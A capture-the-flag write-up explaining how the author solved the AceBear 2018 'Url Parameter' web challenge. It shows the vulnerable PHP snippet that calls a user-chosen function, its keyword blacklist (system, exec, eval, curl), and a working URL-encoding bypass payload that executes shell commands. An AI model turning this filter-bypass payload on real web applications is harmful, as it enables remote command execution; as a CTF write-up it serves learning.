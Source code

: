```yaml
---
layout: post
title: Url Parameter
category: AceBear 2018
---
```




Hello guys, just wake up after 48h of fighting, i will try to make write up for all web task as its all cleaned Here :D

So lets start with this easy task (at least look easy for me  :p) 

First look at robots.txt give us some hint : `http://35.196.45.11:8080/robots.txt`

give us :

```
# you know de wae ma queen
User-Agent: *
Disallow: /?debug
```

then check 

`
http://35.196.45.11:8080/?debug
`
will show us simple php code , we need to send something like `http://35.196.45.11:8080/system=id` where system is the $key and id is the $val

```
$blacklist = "assert|system|passthru|exec|assert|read|open|eval|`|_|file|dir|\.\.|\/\/|curl|ftp|glob";

if(count($_GET) > 0){
	if(preg_match("/$blacklist/i",$_SERVER["REQUEST_URI"])) die("No no no hackers!!");
	list($key, $val) = each($_GET);
	$key($val);
}
```

almost here all function that can be used filtred (open & read & _ ) will filter also many other function

so here make me stuck here

but my friend mention something that maked this almost done 'encode'
As here the filter work on ```$_SERVER["REQUEST_URI"]``` and the in final step we have ```$_GET``` so if we encode our data it end decoded in   ```each($_GET); ``` but not in ```$_SERVER["REQUEST_URI"]```

So the plan is clear here, encode our data to bypass filter and call any function :D

![image](https://user-images.githubusercontent.com/7364615/35493904-ffb66d3c-04b6-11e8-8c82-25acb5c3c60b.png)

lets try it now :

`http://35.196.45.11:8080/%73%79%73%74%65%6d=ls`

![image](https://user-images.githubusercontent.com/7364615/35493920-219f6c1e-04b7-11e8-8660-9d4e6a53dfcd.png)

Then final step read flag file :D 

![image](https://user-images.githubusercontent.com/7364615/35493934-4ac2221c-04b7-11e8-88c0-5b0ca3caf17b.png)

`
AceBear{I_did_something_stupid_with_url}
`

Thanks guys , will try to make write up (BearShare & BearShare 2 & Tet shopping) ;)

